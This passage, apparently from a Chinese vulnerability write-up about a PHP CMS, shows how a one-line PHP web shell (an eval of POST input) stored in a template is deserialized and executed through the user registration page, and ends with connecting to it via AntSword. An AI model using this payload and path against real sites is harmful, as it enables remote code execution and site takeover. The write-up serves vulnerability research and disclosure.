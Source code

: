```plain
<?php namespace t;@eval($_POST[1]);?>
```

会序列化存储到数据库中  
[![](assets/1707954732-1a71f8eec8caa7f65456336775d4ce2b.png)](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869385897-1b907814-8ff9-4f35-ba6b-f54f53b50ac2.png#id=KAkD1&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在获取模板模式的数据的过程中，blockcontent 会被反序列化并将内容赋值给 app/content/cls/api.cls.php中的$tp 最后在进入 eval 执行了代码  
[![](assets/1707954732-90e449f7f2d07f44faf28c7e230887a3.png)](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869386057-9609dc17-27ba-4656-a98c-2736cdab274c.png#id=WTHkf&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)  
其调用位置为用户注册模板处这个 id 为 1 的地方  
其网站访问位置为 **/index.php?user-app-register**  
[![](assets/1707954732-a65b64a973473e7d277ac48acdab5d1e.png)](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869386239-f8615972-c07c-4581-8e8b-39569fe5e96a.png#id=mXZeO&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)  
最后使用 Antsword 连接即可  